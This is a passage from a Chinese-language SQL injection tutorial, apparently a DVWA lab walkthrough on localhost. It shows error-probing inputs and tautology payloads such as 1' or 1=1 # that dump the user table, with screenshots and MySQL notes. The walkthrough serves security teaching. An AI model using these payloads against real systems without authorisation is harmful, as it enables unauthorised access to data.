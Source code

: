 **query**：（一开始并不知晓代码中设置的查询语句，可由后面步骤来推测）
 `SELECT first_name, last_name FROM users WHERE user_id = ''';`
 `SELECT first_name, last_name FROM users WHERE user_id = '\';`
 **输出**：语法错误，抛出异常信息，暴露了数据库服务器的类型为Mysql

- 对于Mysql，构造SQL注入攻击查询语句时常会用到的注释符有`#` 和 `--` （双横杠后面加空格联用）。
- Mysql安装后默认会创建三个数据库：information_schema、mysql和test。其中名为“mysql”的数据库很重要，它里面保存有MYSQL的系统信息、用户修改密码和新增用户，实际上就是针对该数据库中的有关数据表进行操作。



![img](https://upload-images.jianshu.io/upload_images/4866277-c88e301c58e19f98.png?imageMogr2/auto-orient/strip|imageView2/2/w/990)

单引号提交



![img](https://upload-images.jianshu.io/upload_images/4866277-da372624f2a87929.png?imageMogr2/auto-orient/strip|imageView2/2/w/471)

反斜杠提交

> **输入**：双引号 `"`

**query**：`SELECT first_name, last_name FROM users WHERE user_id = '"';`
 **输出**：语法无异常，但是无此id的数据可查询出来



![img](https://upload-images.jianshu.io/upload_images/4866277-b54d4207737a927b.png?imageMogr2/auto-orient/strip|imageView2/2/w/614)

> **输入**：`1`

**query**：`SELECT first_name, last_name FROM users WHERE user_id = '1';`
 **输出**：查询出对应的ID、First name、Surname 字段名及其值



![img](https://upload-images.jianshu.io/upload_images/4866277-daefe3b537714a95.png?imageMogr2/auto-orient/strip|imageView2/2/w/369)

> **输入**：
>  `1' or 1=1 #`
>  `1' or 1=1 --` (末尾为空格)
>  `1' or 'abc'='abc`

**query**：
 `SELECT first_name, last_name FROM users WHERE user_id = '1' or 1=1 #';`
 `SELECT first_name, last_name FROM users WHERE user_id = '1' or 1=1 -- ';`
 `SELECT first_name, last_name FROM users WHERE user_id = '1' or 'abc'='abc';`
 **输出**：构造的永真条件进行查询，列出了表中的所有的ID、First_name、Surname



![img](https://upload-images.jianshu.io/upload_images/4866277-a103110a9226c6ad.png?imageMogr2/auto-orient/strip|imageView2/2/w/598)

通过提交数字1,2,3,4,5,6...来判断用户表中的行数（rows）为5行



![img](https://upload-images.jianshu.io/upload_images/4866277-7d756d0262fefc2d.png?imageMogr2/auto-orient/strip|imageView2/2/w/592)

从以上可判断出url（http://localhost:8001/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#）中的参数id存在注入点，存在**字符型**的SQL注入漏洞
